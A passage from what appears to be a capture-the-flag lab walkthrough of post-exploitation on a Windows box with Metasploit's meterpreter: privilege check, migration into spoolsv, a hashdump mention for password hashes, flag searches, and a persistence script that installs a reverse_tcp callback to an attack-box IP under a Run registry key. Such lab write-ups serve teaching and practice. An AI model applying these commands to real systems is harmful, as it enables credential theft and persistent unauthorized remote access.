 Now we have a meterpreter session! It’s better than a shell, because it can load meterpreter-specific features while allowing us to jump into a system shell if needed.

```plain text
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Based on the `getuid` command output, we’re now superusers on the box. It’s a good idea to `migrate` to a more stable process such as `spoolsv` after finding it with `pgrep`.

```plain text
meterpreter > pgrep spoolsv
1292
meterpreter > migrate 1292
[*] Migrating from 1728 to 1292...
[*] Migration completed successfully.
```

# Looting

To find the passwords of users on the system, we can use `hashdump`. The output of that command doesn’t need to be shown here.

To find flags, meterpreter provides the `search` command, e.g.:

```plain text
meterpreter > search -f *flag1*
Found 2 results...
==================

Path                                                             Size (bytes)  Modified (UTC)
----                                                             ------------  --------------
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk  482           2019-03-18 03:26:42 +0800
c:\flag1.txt                                                     24            2019-03-18 03:27:21 +0800
```

One last thing… can we get a `screenshot`?

{% image "Untitled-dead9c30.png" %}

The box is now ours! It’s fully under our command, and we can make sure it stays under our command with the `persistence` script. Although as of now it’s deprecated, it still works! The `post/windows/manage/persistence_exe` should function the same, however. 

```plain text
meterpreter > run persistence -X

[!] Meterpreter scripts are deprecated. Try exploit/windows/local/persistence.
[!] Example: run exploit/windows/local/persistence OPTION=value [...]
[*] Running Persistence Script
[*] Resource file for cleanup created at /home/em2/.msf4/logs/persistence/JON-PC_20220730.2449/JON-PC_20220730.2449.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=${ATTACKBOX_IP} LPORT=4444
[*] Persistent agent script is 99686 bytes long
[+] Persistent Script written to C:\Windows\TEMP\ggLrbAkICk.vbs
[*] Executing script C:\Windows\TEMP\ggLrbAkICk.vbs
[+] Agent executed with PID 1120
[*] Installing into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\BPQmhWAbp
[+] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\BPQmhWAbp
```
